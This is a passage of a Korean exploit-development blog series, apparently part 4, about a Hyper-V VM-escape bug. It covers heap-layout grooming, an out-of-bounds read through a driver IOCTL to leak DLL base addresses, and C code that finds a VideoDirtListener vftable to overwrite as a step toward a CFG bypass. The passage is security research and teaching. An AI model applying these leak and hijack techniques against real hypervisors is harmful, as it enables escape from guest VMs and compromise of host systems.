

위 그림에서 노란색의 각 128KB, 8192KB 크기의 메모리가 TrackCacheBuffer들과 VRAM 버퍼입니다. 그리고 파란색으로 선택되어 있는 4096KB의 힙 메모리가 타겟 힙입니다. 지난 파트에서 알아본 바로는 VRAM 버퍼와 타겟 힙 사이의 거리가 약 5MB인데 여긴 1MB 정도죠? 파트 3에서는 Windows 10 Version 1709 한국어 버전을 기준으로 했고 지금은 영어 버전이라 이렇게 오프셋에 차이가 있습니다;; L2를 계속 껐다 켜보면서 분석해본 결과, 일반적으로 약 0x120000만큼의 차이가 있어 보입니다.
또한 아래처럼 타겟 힙의 할당된 크기가 작을 때는 L2를 다시 시작 해주면 아래와 같이 타겟 힙에 할당된 데이터가 많아집니다.

하지만 4K 크기의 No access인 부분이 무작위로 생성되어 OOB Read Write 도중 크래시를 야기하기 때문에 익스플로잇 성공률이 현저히 떨어지게 됩니다... 따라서 성공 확률을 조금이라도 높이기 위해 L2 재부팅을 반복해서 이상적인 메모리 레이아웃을 ~~가쟈~~ 만들어준 다음 L0에서 L1의 검사점(스냅샷)을 만들어서 익스플로잇을 진행하겠습니다!

#### Collect DLL Offsets

저는 위와 같은 메모리를 가지는 타겟 힙에서 960KB의 메모리에서 DLL 주소들을 찾아보겠습니다! windbg를 관리자 권한으로 실행하고 vmwp에 attach한 다음 pykd로 위에서 살펴본 스크립트를 실행시킨 결과는 아래와 같습니다.


이제 DLL 오프셋들도 알아냈으니 타겟 힙까지의 오프셋 등을 조정한 다음 익스플로잇 코드를 실행시켜주면?...



필요한 DLL들의 베이스 주소를 알아낼 수 있습니다!!

## Find VideoDirtListener
타겟 힙에서 찾아야할 데이터는 dll들의 베이스 주소만이 아닙니다. 위에서 알아본 CFG를 우회하기 위해 몇 가지 가젯들을 호출할 필요가 있는데 이를 위해 타겟 힙에서 `VideoDirtListener`를 찾아야 합니다. `VideoDirtListener`는 `vmemulateddevices.dll`에 구현되어 있고 vftable을 사용합니다. 또한 `VideoDirtListener`의 `PrepareSelf`, `UnprepareSelf` 등의 메소드는 가상머신이 켜지고 꺼질 때만 호출되기 때문에 vftable을 덮어쓰고 페이로드를 삽입한 다음 원하는 시점에서 페이로드를 작동시킬 수 있습니다.
`VideoDirtListener`는 타겟 힙 내에 무작위한 위치에 할당됩니다... 또한 타겟 힙이 위에서 VMMap으로 살펴본 것과 같이 4KB의 No Access인 메모리가 Read Write 가능한 메모리 사이에 끼어있어서 `VideoDirtListener`를 찾겠다고 무작정 OOB read로 타겟 힙을 읽으면 크래시가 발생할 수 있습니다. 따라서 있지도 않은 `VideoDirtListener`를 찾겠다가 크래시가 발생하는 사태를 막기 위해 windbg로 어디에 할당되어 있는지 찾아봅시다

먼저 아래의 커맨드로 `VideoDirtListener`의 vftable에 break on access를 걸어줍니다.
```windbg
ba r4 vmemulateddevices!VideoDirtListener::`vftable'
```
`VideoDirtListener`가 어떤 기능을 하는 클래스인지는 잘 모르지만 가상머신 연결을 기본 세션으로 바꾸고 다시 고급 세션으로 바꿀 때 브레이크되는 것을 확인할 수 있습니다.

이후 rcx에 저장된 `VideoDirtListener`의 주소를 보고 타겟 힙에 할당되었는지 확인합니다. 저는 몇 번의 시도 끝에 아래처럼 예쁘게 타겟 힙에 할당된 것을 얻었습니다....

VMMap에서 확인해보니 4KB No Access인 메모리 다음에 있는 메모리라는 것을 알 수 있었습니다. dll 주소값을 읽을 때처럼 타겟 힙에 도착하자마자 OOB Read를 하는 것이 아닌 추가적인 오프셋 증가가 필요합니다.
Exploit 코드의 Jump offset과 Read range로 입력 받는 변수가 바로 이를 위한 것이고 `VideoDirtListener`의 주소와 타겟 힙의 시작 주소를 빼보니 약 1490KB라는 값을 얻었습니다. Jump offset을 1300KB로 하고 200KB정도 읽어준 다음 DLL 베이스를 알아낼 때처럼 vftable의 오프셋인 0x22e0과 비교해서 `VideoDirtListener`를 찾아줍니다.
```C
	printf("[+] Read 2\n");
	DeviceIoControl(driver, LEAK_IOCTL, &FindVdl, sizeof(ReadInfo), NULL, 0, NULL, NULL);
	printf("[+] Find VideoDirtListener from Leaked Data\n");

	for (__int64* qword = FindVdl.buffer; qword < (__int64*)FindVdl.buffer + (FindVdl.to - FindVdl.from) / 8; qword++) {
		unsigned short* word = qword;
		if(*word == 0x22e0 && (*qword >= 0x7ff000000000 && *qword < 0x7fffffffffff)){
			VideoDirtListenerVtable = *qword;
			VideoDirtListenerOffset = qword;
			VideoDirtListener = qword[0x58 / 8];
			printf("VideoDirtListener: %llx, vftable: %llx\n", VideoDirtListener, VideoDirtListenerVtable);
		}
	}

	if (!VideoDirtListener || !combase || !RPCRT4 || !KernelBase) {
		printf("[!] Some Data Not Found from Target Heap\n");
		UnmapViewOfFile(data);
		CloseHandle(hFileMap);
		CloseHandle(hFile);
		CloseHandle(driver);
		return 0;
	}

```


위와 같이 `VideoDirtListener`를 찾을 수 있었습니다!

# Part 5 예고
이로써 익스플로잇에 필요한 데이터들을 모두 얻었습니다... 각종 DLL들의 베이스 주소와 `VideoDirtListener`의 위치, 이 모든 데이터는 CFG를 무력화시키기 위한 빌드업이었죠. 다음 파트에서는 Windows RPC의 `NdrServerCall2` 함수를 써서 CFG를 무력화시키는 기법에 대해 알아보고 이를 활용한 페이로드를 작성해 익스플로잇을 해보도록 하겠습니다!
